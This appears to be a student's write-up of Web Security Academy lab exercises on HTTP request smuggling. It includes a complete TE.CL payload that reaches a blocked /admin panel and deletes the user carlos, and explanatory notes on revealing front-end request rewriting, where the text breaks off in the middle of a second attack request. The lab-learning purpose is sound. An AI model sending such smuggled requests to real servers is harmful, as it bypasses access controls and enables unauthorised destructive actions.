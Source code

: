 This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. There's an admin panel at /admin, but the front-end server blocks access to it.

To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos. 

Attack payload:
```
POST / HTTP/1.1
Host: 0a6f00220328a9a580d4b35300870030.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 4

93
POST /admin/delete?username=carlos HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: localhost
Content-Length: 25

nglong05=hello
0

```
## Revealing front-end request rewriting

In many applications, the front-end server performs some rewriting of requests before they are forwarded to the back-end server, typically by adding some additional request headers. For example, the front-end server might:

-    terminate the TLS connection and add some headers describing the protocol and ciphers that were used;
-    add an **X-Forwarded-For** header containing the user's IP address;
-    determine the user's ID based on their session token and add a header identifying the user; or
-    add some sensitive information that is of interest for other attacks.

In some situations, if your smuggled requests are missing some headers that are normally added by the front-end server, then the back-end server might not process the requests in the normal way, resulting in smuggled requests failing to have the intended effects.

There is often a simple way to reveal exactly how the front-end server is rewriting requests. To do this, you need to perform the following steps:

-    Find a POST request that reflects the value of a request parameter into the application's response.
-    Shuffle the parameters so that the reflected parameter appears last in the message body.
-    Smuggle this request to the back-end server, followed directly by a normal request whose rewritten form you want to reveal.

Suppose an application has a login function that reflects the value of the email parameter:
```
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```
This results in a response containing the following:
```
<input id="email" value="wiener@normal-user.net" type="text">
```
Here you can use the following request smuggling attack to reveal the rewriting that is performed by the front-end server:
```
POST / HTTP/1.1
Host: vulnerable-website.com
```